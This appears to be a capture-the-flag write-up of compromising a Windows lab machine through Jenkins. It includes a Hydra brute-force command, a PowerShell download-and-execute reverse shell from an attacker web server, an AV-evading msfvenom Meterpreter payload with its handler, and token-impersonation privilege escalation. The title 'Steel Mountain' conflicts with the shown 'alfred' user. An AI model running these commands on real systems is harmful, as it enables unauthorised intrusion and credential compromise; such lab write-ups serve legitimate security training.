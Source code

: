 # Steel Mountain

## Summary

Jenkins is used to create continuous Integration/continuous development (CI/CD) pipelines that allow developers to deploy code once changes are made. I used the [Invoke-PowerShellTcp.ps1 ](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script from Nishang to grab initial access and utilized token impersonation to gain privileged access.

## Enumeration

I ran Nmap on the machine and used the `-Pn` flag as the host was down initially. 

```
nmap $machine_IP -Pn -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 22:22 EST
Nmap scan report for $machine_IP
Host is up (0.27s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

Navigating to the webpage on Port 80 resulted in an empty landing page

![port80](Images/port80.png)

Navigating to the webpage on Port 8080 rendered a Jenkins login page

![port8080](Images/port8080.png)

Bruteforcing with Hydra requires valid parameters for URL, Form Parameters and login error message. To achieve this I ran an authentication request through Hydra. Having become much more familiar with Burp Suite since completing this room, I would default to using Burp Intruder for bruteforcing and fuzzing login fields. However, in this case, I was able to successfully do this via Hydra.

![Jenkins](Images/jenkins-login.png)

![burp](Images/jenkins-burp-login.png)

```
hydra -s 8080 $machine_IP http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -L user.txt -P password.txt -t 20 -w 30
```

![hydra](Images/hydrapasscrack.png)

After logging into Jenkins, I am presented with the dashboard. 

![Jenkins dashboard](Images/jenkinsdashboard.png)

Navigating to the `Configure` section of the project and moving to the `build` directory shows a method of executing a reverse shell. I ran the `whoami` command as a POC and receive a successful result. 

![Jenkins whoami](Images/jenkinswhoami.png)

## User Foothold

I use the `Invoke-PowerShellTcp.ps1` script from the Nishang Framework to get a reverse shell on the victim's machine.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://$machine_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $THM_IP -Port 4444
```

![revsershell](Images/jenkinsrevshell.png)

![build](Images/jenkinsshellexec.png)

Meanwhile, we can see that the `Invoke-PowerShellTcp.ps1` file was picked up from the Python Simple HTTP Server

![python server](Images/httpserver.png)

Meanwhile, we also see a reverse connection and get a reverse shell. We are also able to grab the `user.txt` flag. 

![reverse shell](Images/ncshell.png)

![user.txt](Images/user.txt.png)

## Switching Shells - Optional

The reverse shell we have received is a standard Windows CMD shell. Having a meterpreter shell provides us with increased functionality, such as, hash dumping, easy file uploads and downloads and token impersonation, which is relevant to this box, among others. While it is perfectly possible to continue and complete the rest of the box with a standard shell, I will be switching over to a Meterpreter shell for the above-mentioned reasons. 

I start off by generating an encoded x86-64 TCP Meterpreter payload through Msfvenom. Payloads are encoded to ensure they're transmitted correctly and evade anti-virus (AV) solutions.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

I am able to move this generated payload to the victim machine on the existing reverse shell.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$machine_IP:8000/shell.exe','shell.exe')"
```

In preparation, I ensure that the listening handler is setup in Metasploit.

```
msf6 exploit(multi/handler) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost $THM_IP
lhost => $THM_IP
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on $THM_IP:9999 
[*] Sending stage (175174 bytes) to $machine_IP
[*] Meterpreter session 1 opened ($THM_IP:9999 -> $machine_IP:49238 ) at 2022-02-01 00:58:17 -0500

meterpreter > getuid
Server username: alfred\bruce
meterpreter >
```

Meanwhile, I started the shell - `Start-Process "shell.exe"`

## Privilege Escalation
Now that we have initial access, we can use **token impersonation** to gain system access. Windows uses tokens to ensure that accounts have the appropriate privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by `LSASS.exe`

This access token consists of 

1. User SID's (Security Identifier)
2. Group SID's
3. Privileges

There are 2 types of access tokens

1. Primary Access Tokens - those associated with a user account that are generated on log on
2. Impersonation tokens - they allow a particular process (or thread in a process) to gain access to resources using the token of another (user/client) process

Impersonation tokens have different levels

1. SecurityAnonymous - current user/client cannot impersonate another user/client
2. SecurityIdentification - current user/client can get the identity and privileges of a client, but cannot impersonate the client
3. SecurityImpersonation - current user/client can impersonate the client's security context on the local system
4. SecurityDelegation - current user/client can impersonate the client's security context on the remote system

Security Context is a data structure that contains user's security information

The privileges of an account (either given to the account when created or inherited from a group) allow a user to carry out particular actions

### List of commonly abused privileges

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

I am able to view all privileges using `whoami /priv`

![whoamipriv](Images/whoamiprivs.png)

This indicates that the `SeDebugPrivilege` and `SeImpersonatePrivilege` privileges are enabled. With `load incongnito` and `list_tokens -g` I am able to view which tokens are available and use the `impersonate_token “BUILTIN\Administrators”` command to impersonate the Administrators token.

```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

**Warning** - something to note, despite having a higher privileges token, at times you still might not have the permissions of the privileged user. This is due to how Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can and cannot do. However, I can now escalate processes. I run the `ps` command to see what processes are running as `NT AUTHORITY\SYSTEM` and `spoolsv.exe` was one of the results. I am able to migrate to `spoolsv.exe` with the following command - `migrate <PID>`

Then I navigate to `C:\Windows\system32\config` where I was able to grab the root flag.

```
meterpreter > cat root.txt 
dff#######################
```